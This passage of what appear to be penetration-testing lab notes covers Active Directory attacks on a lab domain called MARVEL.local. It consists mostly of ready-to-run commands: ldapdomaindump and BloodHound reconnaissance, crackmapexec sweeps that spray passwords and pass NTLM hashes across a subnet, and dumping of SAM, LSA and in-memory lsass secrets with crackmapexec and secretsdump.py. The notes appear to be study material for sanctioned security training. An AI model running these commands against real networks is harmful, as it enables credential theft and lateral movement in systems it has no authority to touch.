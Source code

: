 * ldapdomaindump:

```shell
sudo ldapdomaindump ldaps://dc.ip -u 'MARVEL\fcastle' -p Password1
#it is automatically used in the IPv6 relay attack
```

* Bloodhound: Recon tool for Active Directory environments.

```shell
sudo neo4j console
#localhost:7687 - default creds: neo4j:neo4j -> changed to neo4j1

sudo bloodhound

sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns dc.ip -c all
#run ingestor - this wasnt working for me so I installed it from the github repo and used:
python3 Bloodhound.py/bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns dc.ip -c all
```

* This zip file can be imported in BloodHound. We can use Pre-Built Analytics Queries to plan further.

## Attacking Active Directory: Post-Compromise Attacks

* Pass the Hash:

```shell
crackmapexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
#sweep entire network
#attempts to gain access via pass the password
#can also spray passwords

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth
#attempts to pass the hash and authenticate as LOCAL ADMIN, it can be useful if the hash cannot be cracked, but with this it is possible to dump secrets

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --sam
#attempts to dump SAM files

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --shares
#enumerate shares on the machines

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --lsa
#dump the lsa (secrets for users who have already loggen in once before), but it is not guaranteed that the cracked password is still valid
#cracked passwords can be used for password spraying

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth -M lsassy
#dump secrets in memory

cmedb
#crackmapexec database

secretsdump.py marvel/fcastle:Password1@192.168.57.141
secretsdump.py administrator:@192.168.57.141 --hashes NTLM_hash
#silent alternative to hashdump in meterpreter
#dumps SAM hashes

#the NTLM hashes can be cracked using Hashcat
#if we cannot crack hashes, we can pass the hashes (only NTLM, not NTLMv2)
```
![](assets/img/passthehash.png)
- Keep in mind: 
- NTLMv1 hashes can be passed around, NTLMv2 hashes can be only relayed
- sprayed = pass
